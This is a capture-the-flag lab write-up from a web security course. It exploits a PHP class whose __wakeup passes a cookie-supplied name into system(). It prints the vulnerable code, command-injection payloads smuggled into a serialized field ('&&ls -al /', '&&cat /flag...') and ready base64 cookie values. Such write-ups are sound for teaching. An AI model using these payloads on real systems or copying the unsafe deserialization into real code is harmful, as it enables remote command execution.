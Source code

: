 ```yaml
---
title: Simple Web 0x17(Lab - Baby Cat)
tags: [NTUSTWS, CTF, Web]

category: "Security/Course/NTU CS/Web"
---
```


# Simple Web 0x17(Lab - Baby Cat)
<!-- more -->
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8601/

## Background
[0x16.5(php unserialize)](/FkF8p-zrSMSOWFkE4vvAJQ)

## Source code
:::spoiler code
```php=
<?php
isset($_GET['source']) && die(!show_source(__FILE__));

class Cat
{
    public $name = '(guest cat)';
    function __construct($name)
    {
        $this->name = $name;
    }
    function __wakeup()
    {
        echo "<pre>";
        system("cowsay 'Welcome back, $this->name'");
        echo "</pre>";
    }
}

if (!isset($_COOKIE['cat_session'])) {
    $cat = new Cat("cat_" . rand(0, 0xffff));
    setcookie('cat_session', base64_encode(serialize($cat)));
} else {
    $cat = unserialize(base64_decode($_COOKIE['cat_session']));
}
?>
<p>Hello, <?= $cat->name ?>.</p>
<a href="/?source">source code</a>
```
:::

## Exploit - deserialize
1. Use psysh to test payload
In local side, if you haven't install `cowsay`, the payload should be `'||ls -al'`
    ```bash!
    $ ./psysh
    > system("cowsay 'Welcome back, '||pwd''");
    sh: 1: cowsay: not found
    /home/sbk6401
    = "/home/sbk6401"
    ```
2. Construct testing case
    ```bash!
    $ ./psysh
    > class Cat{
    . public $name = '(guest cat)';
    . function __construct($name){$this->name = $name;}
    . function __wakeup(){system("cowsay 'Welcome back, $this->name'");}}
    > $cat = new Cat("'&&ls -al /'")
    = Cat {#2785
        +name: "'&&ls -al /'",
      }

    > base64_encode(serialize($cat))
    = "TzozOiJDYXQiOjE6e3M6NDoibmFtZSI7czoxMjoiJyYmbHMgLWFsIC8nIjt9"
    ```
    Then change`cat_session` to `TzozOiJDYXQiOjE6e3M6NDoibmFtZSI7czoxMjoiJyYmbHMgLWFsIC8nIjt9` and we'll get the response
    ![](https://i.imgur.com/oTHtA0U.png)

3. Get flag
    ```bash!
    > $cat = new Cat("'&&cat /flag_5fb2acebf1d0c558'")
    = Cat {#2789
        +name: "'&&cat /flag_5fb2acebf1d0c558'",
      }

    > base64_encode(serialize($cat))
    = "TzozOiJDYXQiOjE6e3M6NDoibmFtZSI7czozMDoiJyYmY2F0IC9mbGFnXzVmYjJhY2ViZjFkMGM1NTgnIjt9"
    ```
    Again! Modify `cat_session` to `TzozOiJDYXQiOjE6e3M6NDoibmFtZSI7czozMDoiJyYmY2F0IC9mbGFnXzVmYjJhY2ViZjFkMGM1NTgnIjt9` then we'll get flag
    ![](https://i.imgur.com/y5HHWDZ.png)